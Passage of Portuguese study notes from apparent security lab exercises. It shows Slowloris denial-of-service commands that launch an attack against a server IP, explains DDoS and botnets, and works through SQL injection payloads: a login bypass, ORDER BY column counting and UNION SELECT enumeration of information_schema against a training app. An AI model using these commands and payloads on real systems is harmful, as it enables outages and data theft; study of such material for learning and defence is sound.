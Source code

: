       * O Intrusion Prevention System (IPS) é conectado diretamente na rede, dessa forma, ao analisar algum tipo de anomalia o IPS é capaz de impedir que esse tráfego seja propagado para outros pontos da minha rede.
```bash
$ git clone https://github.com/llaera/slowloris.pl.git  => no kali linux, baixamos uma ferramenta capaz de sobrecarregar um servidor
$ cd slowloris.pl/
$ chmod +x slowloris.pl
$ ./slowloris.pl
$ perl ./slowloris.pl -dns [IP servidor] -timeout 1   => executa o ataque
```
#DDoS ( #Distributed_Denial_of_Service):
      * O ataque DDoS (Distributed Denial of Service) consiste em tirar a concentração do ataque em um usuário, como é feito no ataque de DoS e distribuir o ataque por vários usuários. Isso pode ser obtido por exemplo quando usuários fazem download de arquivos infectados. Uma vez que tais máquinas foram infectadas, o Hacker poderá controlá-las para que possa assim iniciar um ataque distribuído contra um serviço. O objetivo de tal ataque seria de causar uma "saturação" no link do alvo e com isso torná-lo indisponível para que outros usuários acessem o serviço.
      * Uma botnet é um grupo de máquinas que foram comprometidas de alguma forma (por exemplo vírus, malware, etc). Tais máquinas infectadas passam a ser usadas por hackers para fazerem ataques contra um determinado serviço a fim de torná-lo indisponível. Pelo fato de termos várias máquinas atuando nesse ataque, chamamos esse de um ataque de negação de serviços distribuído (DDoS).
  #SQL_Injection:
      * Inserir códigos SQL em parâmetros da página, para que o banco de dados se comporte de uma maneira indevida, podendo por exemplo, extrair dados que estão lá inseridos.
      * No exemplo de nossa aplicação, os parâmetros username e password são encaminhados para o servidor e ocorre uma consulta no banco de dados para verificar se esses dados estão presentes. Essa consulta ao banco de dados é feita na linguagem SQL (Structured Query Language) e ao inserir códigos SQL nos campos username e password, estamos passando para o banco informações para que ele se comporte da forma que queremos, o que não deveria ser permitido.
        $ no campo de password digitar  x' or 'a'='a   nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Desta forma, ao passarmos "SELECT username FROM accounts WHERE username='admin' AND password='x' or 'a'='a';", podemos utilizar esse operador lógico or para que o SQL retorne como True essa requisição
        $ Nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Para que possamos descobrir a senha, podemos ordenar duas colunas passando no name: " admin' order by 1,2 --[espaço] " (-- comenta o código, então ' AND password=''; será comentado). Assim nos é retornado a senha do usuário. Com isso podemos também descobrir o número de colunas que essa tabela possui, basta dar um order by [num_coluna] até que não levante excessão de erro
        ! O information schema seria um banco de dados interno capaz de referenciar os demais bancos presentes em minha aplicação, podendo informar nomes de colunas e tabelas. Sendo assim muito importante para descobrir que informações estão guardadas.
        $ Com a linha acima descobrimos o número de colunas. Com isso, SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ' AND password=''. O que passamos na aba username foi "admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ", Recebemos as informações de que Username está na coluna número 2, Password na número 3 e Signature na 4. Repare que esses números surgem dos parâmetros que nós mesmos inserimos. Falta descobrir qual o banco em que essa tabela Accounts está inserida. Portanto, nós vamos substituir um desses valores que aparece na tela pelo database. Agora: "admin' UNION SELECT 1,database(),3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ".
          Ou seja, temos o nome da banco no qual a tabela está inserida, o nowasp! Então, já temos a tabela e o banco. Agora, fica ainda mais fácil descobrir as colunas de Account. No lugar do database() nós vamos colocar columns_name e após o table vamos inserir table schema='nowasp'e com isso, estamos dizendo: queremos saber o nome das colunas que estão na tabela Accounts dentro do banco nowasp. Então, "admin' UNION SELECT 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='accounts' and table_schema='nowasp'-- '". Ou seja! Temos todos os nomes das colunas! Conseguimos descobrir quais eram as sete colunas dentro da tabela!
        $ No lab 3 utilizamos ' UNION SELECT NULL,NULL,NULL-- ou ' ORDER BY 1,2,3 -- para determinar a quantidade de colunas existentes na tabela do banco de dados
          No lab 4 utilizamos " ' UNION SELECT 'a',NULL,NULL,NULL-- " ou " ' UNION SELECT NULL,'a',NULL,NULL-- " para saber qual coluna da tabela contem tipos string, caso ela não contesse iria levantar uma exceção de erro interno 